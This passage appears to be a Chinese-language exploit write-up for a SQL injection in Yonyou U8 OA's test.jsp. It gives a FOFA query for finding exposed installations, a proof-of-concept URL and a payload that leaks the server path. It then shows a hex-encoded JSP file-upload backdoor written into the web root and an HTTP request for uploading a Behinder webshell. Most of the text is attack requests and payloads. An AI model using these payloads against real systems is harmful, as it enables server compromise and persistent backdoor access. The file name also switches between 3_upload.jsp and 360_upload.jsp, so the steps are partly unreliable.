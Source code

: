 对 `username` 进行注入

![img](https://z3.ax1x.com/2021/07/13/WFHYKx.png)

## 用友 U8 OA test.jsp SQL注入漏洞

原文：http://wiki.peiqi.tech/PeiQi_Wiki/OA产品漏洞/用友OA/用友 U8 OA test.jsp SQL注入漏洞.html

用友 U8 OA test.jsp文件存在 SQL注入漏洞，由于与致远OA使用相同的文件，于是存在了同样的漏洞。

### FoFa

`"用友U8-OA"`

http://x.x.x.x:8082/yyoa/index.jsp

![img](https://z3.ax1x.com/2021/07/13/WFHBPH.png)

### PoC

```sql
/yyoa/common/js/menu/test.jsp?doType=101&S1=(SELECT%20MD5(1))
```

![img](https://z3.ax1x.com/2021/07/13/WFHwIe.png)

### 构造Payload获取路径 

`/yyoa/common/js/menu/test.jsp?doType=101&S1=(SELECT%20@@basedir)`

![img](https://z3.ax1x.com/2021/07/13/WFHdaD.png)

得到物理路径 ` E:\Program Files\UFIDA\U8_OA\mysql\bin..\`

通过 into outfile 写入文件，这里因为 jsp木马存在特殊符号，使用 hex编码上传允许文件上传的jsp文件到：`D:/Program Files/UFIDA/U8-OA/tomcat/webapps/yyoa/`，即，根目录：

```sqlite
http://x.x.x.x/yyoa/common/js/menu/test.jsp?doType=101&S1=select%20unhex(%273C25696628726571756573742E676574506172616D657465722822662229213D6E756C6C29286E6577206A6176612E696F2E46696C654F757470757453747265616D286170706C69636174696F6E2E6765745265616C5061746828225C22292B726571756573742E676574506172616D65746572282266222929292E777269746528726571756573742E676574506172616D6574657228227422292E67657442797465732829293B253E%27)%20%20into%20outfile%20%27D:/Program Files/UFIDA/U8-OA/tomcat/webapps/yyoa/3_upload.jsp%27
```

![img](https://z3.ax1x.com/2021/07/13/WFHrRA.png)

如上图则上传成功，访问 360_upload.jsp 为空白不报错页面不存在就是真正上传成功。

------

发送请求包上传冰蝎webshell，需要进行url编码一下。

```sqlite
POST /yyoa/360_upload.jsp?f=cdnwebshell.jsp HTTP/1.1
Host: xxxxxx
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:87.0; en_US) Gecko/20100101 Firefox/87.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
DNT: 1
Connection: close
Cookie: JSESSIONID=1D7702B81816F505089A9BE889F796DF
Upgrade-Insecure-Requests: 1
X-Forwarded-For: 8.8.8.6
X-Originating-IP: 8.8.8.6
```